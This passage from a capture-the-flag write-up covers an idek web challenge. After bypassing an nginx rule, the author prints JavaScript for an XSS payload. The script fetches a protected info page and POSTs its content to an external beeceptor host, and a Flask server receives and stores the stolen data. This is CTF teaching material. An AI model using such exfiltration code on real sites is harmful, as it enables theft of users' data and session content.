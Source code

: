 
![bypass-info-page](/images/2024-08-18-23-15-42.png)


There we go! We bypassed the nginx rule, all there is left is creating an XSS payload
which adheres to the constraints, visits the `/info.php` page and send its content to us
the attacker.


## Exploit - continued

Before we craft the XSS payload, let's first write the JS code which will be injected.
It should look like this:


```js
fetch('http://idek-hello.chal.idek.team:1337/info.php/whatever.php')
  .then(response => response.text())
  .then(data => {
    return fetch('https://qtcbb221a681bbd53187f7c03c5c.free.beeceptor.com/save', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ content: data })
    });
  })
```

The script is simple enough, we first fetch the info page, with its response captured,
we send it to our hosted server (I used beeceptor to tunnel my localhost) and retrieve the flag.

The server in case you are wondering looks something like this (written in flask):

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/save', methods=['POST'])
def save():
    data = request.json
    content = data.get('content', '')

    # Save the content to a file
    with open('out.html', 'w') as f:
        f.write(content)

    return jsonify({'status': 'success', 'message': 'Content saved!'})

if __name__ == '__main__':
    app.run(port=5000, debug=True)
```


Alright, the last step now, how can we create the XSS payload. Let's review the constraints:
